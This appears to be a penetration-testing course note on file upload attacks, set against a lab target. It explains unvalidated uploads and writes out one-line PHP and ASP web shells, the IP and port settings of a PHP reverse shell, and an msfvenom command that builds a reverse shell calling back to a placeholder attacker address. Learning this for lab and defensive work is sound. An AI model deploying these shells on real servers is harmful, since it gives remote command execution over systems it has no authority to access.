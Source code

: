 # 🐌 File Upload Attacks

The worst possible kind of file upload vulnerability is an `unauthenticated arbitrary file upload` vulnerability. With this type of vulnerability, a web application allows any unauthenticated user to upload any file type, making it one step away from allowing any user to execute code on the back-end server.

The most common and critical attack caused by arbitrary file uploads is `gaining remote command execution` over the back-end server by uploading a web shell or uploading a script that sends a reverse shell.

#### **Basic Exploitation**

The most basic type of file upload vulnerability occurs when the web application `does not have any form of validation filters` on the uploaded files, allowing the upload of any file type by default.

Let's imagine a upload form that does not specify what type of file we can upload:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Many kinds of scripts can help us exploit web applications through arbitrary file upload, most commonly a `Web Shell` script and a `Reverse Shell` script.

A web shell prints it's output back to us within the web browser. It has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts.

Let's say we have a website `http://SERVER_IP:PORT/`, as the `index` page is usually hidden by default. But, if we try visiting `http://SERVER_IP:PORT/index.php`, we would get the same page, which means that this is indeed a `PHP` web application.

but if not we can juste use [Wappalyzer](https://www.wappalyzer.com)

To start exploiting the vuln , let's start by writing `<?php echo "Hello HTB";?>` to `test.php`, and try uploading it to the web application

we get a message saying `File successfully uploaded` and if we go to `http://SERVER_IP:PORT/uploads/test.php`

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer.**_

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Upload Exploitation

### Web Shell

Now we will try to be able to interact with it to take control over the back-end server.

A good webshell for `PHP` is [phpbash](https://github.com/Arrexel/phpbash) and good to know but [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`.

It's good practice to know how to write our own webshell:

```php
<?php system($_REQUEST['cmd']); ?>
```

add `?cmd=id` after the request to enter the command

For `.NET` web applications:

```aspnet
<% eval request('cmd') %>
```

### Reverse Shell

One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

After changing the IP and port

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

We launch our listener with netcat, upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection

### Custom Reverse Shell

`msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`

```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
